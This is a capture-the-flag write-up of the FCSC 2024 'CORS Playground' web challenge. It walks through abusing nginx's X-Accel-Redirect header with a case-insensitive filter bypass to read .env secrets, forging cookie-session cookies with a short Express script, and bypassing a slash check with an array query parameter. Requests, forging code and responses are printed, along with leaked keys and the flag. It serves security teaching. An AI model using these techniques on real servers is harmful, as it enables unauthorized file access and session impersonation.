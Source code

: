 ```yaml
---
title: CORS Playground
author: Adrian Junge
description: Perplexed by CORS? Our CORS Playground is your ideal solution. This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies. Perfect for unraveling the complexities of secure cross-origin requests. Dive in and clarify your CORS concepts!
categories:
    - Web
year: 2024
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **Node.js** server with **nginx** allows setting arbitrary response headers
    **- Key Discoveries:** **Nginx** processes `X-Accel-Redirect` header to gain arbitrary file read in workdir e.g. of `.env`
    **- Check Bypass:** Bypassed X- header restriction using case insensitivity (x-Accel-Redirect)
    **- Cookie Forgery:** Forged cookies with leaked server secrets to impersonate the internal user using session keys
    **- Check Bypass:** Bypassed filename `/` check by sending the filename as an array: `filename[]=/flag.txt`

# 1. Introduction<a id="introduction"></a>
The description might be a bit misleading at the beginning:

```
Perplexed by CORS?
Our CORS Playground is your ideal solution.
This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies.
Perfect for unraveling the complexities of secure cross-origin requests.
Dive in and clarify your CORS concepts!
```

Although **CORS** is both contained in the title and the description, this challenge is nothing about exploitation of **CORS** misconfigurations.

# 2. Reconnaissance<a id="reconnaissance"></a>
The challenge is about a **node.js** server being deployed together with **nginx**. By starting playing around with the application we are able to add any kinds of CORS-headers to the server response via the `/cors` endpoint appending the headers as url parameters:

![overview](ctf/writeups/fcsc/corsplayground/corsplayground.png "overview")

After having a look into the source code, this is not only about CORS-headers. You can set *any* kind of header for your request and the server response:

```javascript
app.all("/cors", (req, res) => {
    for (const [key, value] of Object.entries(req.query)) {
        if (key.includes("X-")) delete req.query[key]
    }
    res.set(req.query);
    if (req.session.user === "internal" && !req.query.filename?.includes("/")) {
        res.sendfile(req.query.filename || "app.js");
    } else {
        res.send("Hello World!");
    }
});
```

Moreover there are some constraints e.g. we are not allowed to use custom headers starting with `X-`. Having set an appropriate cookie with `session.user === "internal"` allows us to retrieve any file we wish - sounds highly interesting. Unfortunately we are also not allowed to have a `/` in our path. So it seems like we are not allowed to use absolute paths and are restricted to the directory `/usr/app` the application is running in. Having a look in the docker setup we see the `flag.txt` got some interesting permissions set:

```dockerfile
FROM nginx:alpine3.18-slim
WORKDIR /usr/app
COPY --chown=1337:1337 --chmod=400 ./src/nginx/nginx.conf /etc/nginx/nginx.conf
COPY --chown=1337:1337 --chmod=500 ./src/app/ /usr/app/
COPY --chown=1337:1337 --chmod=500 ./src/start.sh /start.sh
COPY --chown=root:root --chmod=444 ./src/flag.txt /flag.txt
RUN apk add --update --no-cache            \
    nodejs~=18                             \
    npm~=9.6                            && \
    npm install
USER 1337:1337
CMD ["/bin/sh", "/start.sh"]
```

Anyone is allowed to read the `/flag.txt` because of the `444` rights. But how can we even get a cookie? The server secrets for generating cookies via the `cookie-session` seem to be random, so to forge any cookies we would have to forge a valid signature and thus break the underlying cryptography.

# 3. Vulnerability Description<a id="vulnerability description"></a>
Setting arbitrary headers in the server responses already seems very phishy. At first this seems kina useless. The headers are not processed any further but only appended to the server response. But we still got **nginx** sitting between client and server, so maybe some headers are still processed by **nginx**? There is an interesting header called `X-Accel-Redirect`. Usually this header is used to indicate that a response should be redirected. But in our case we can abuse this header to serve arbitrary files via **nginx**.

# 4. Exploitation<a id="exploitation"></a>
The working directory of **nginx** is `/usr/app`. But before using the `X-Accel-Redirect` header we need to bypass the `key.includes("X-")` check preventing us from using custom headers. Luckily nginx is not case sensitive. Unfortunately **nginx** won't serve us any files that are not contained in `/use/app/*`. So we can't simply request the `../../flag.txt` via e.g. a path traversal. By requesting `GET /cors?x-Accel-Redirect=.env` we get access to the server secrets:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:48:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 150
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
Connection: keep-alive
ETag: "6613ebf0-96"
Accept-Ranges: bytes

PORT=3000
KEY1=244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620
KEY2=c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2
```

Now that we have the server secrets we can start forging cookies. For this I used a small **node.js** server generating the cookies for me:

```javascript
const express = require("express");
const cookieSession = require("cookie-session");
const app  = express();

const KEY1="244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620"
const KEY2="c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2"

app.use(cookieSession({
    name: "session",
    keys: [KEY1, KEY2]
}));

app.get('/set-cookie', (req, res) => {
    req.session.user = 'internal';
    res.send('Cookie set and signed');
});

app.listen(3000, () => {
    console.log('Server running @ http://localhost:3000');
});
```

So by requesting `/set-cookie` we get:

```http
HTTP/1.1 304 Not Modified
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; path=/; httponly
Set-Cookie: session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA; path=/; httponly
ETag: W/"1b-eYZazkp0W5H4AV0mNeEdq7v8u6k"
Date: Mon, 03 Feb 2025 21:50:33 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

So we got our new cookie header `Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA` ready to exploit the application. Now we are able to request (almost) any files we want. For example `package.json`. The last obstacle is about bypassing the `includes("/")` check. In these kind of situations it is always worth it thinking about which assumptions the developer made when implementing such kind of checks. In this case the assumption is definitely that the `filename` url parameter is parsed as a string. What if we somehow manage to make this parameter something else than a string? Then the `includes` function would have a completely different meaning. Maybe you have already seen something like `GET /submit?selectedOptions[]=Option1&selectedOptions[]=Option3`. This is used when you are dealing with some **multi select fields**. **Express** will handle these kind of url parameters as arrays. Thus `includes` will have a different meaning than intended, leading to a bypass for this check. So by requesting `GET /cors?filename[]=/flag.txt` we get our well beloved flag:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:52:53 GMT
Content-Type: text/plain; charset=UTF-8
Content-Length: 71
Connection: keep-alive
X-Powered-By: Express
filename: /flag.txt
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
ETag: W/"47-18ebdd1a180"

FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
```

So interesting enough the `res.sendfile` in the server code also accepts arrays.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is inherent to the design. The client should never be able to set arbitray response headers for the server. Moreover the checks trying to prevent exploitation are too lazy. In general using `includes` in security check is almost never a good idea because the match is too broad leading to bypasses.

# 6. Flag<a id="flag"></a>
FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
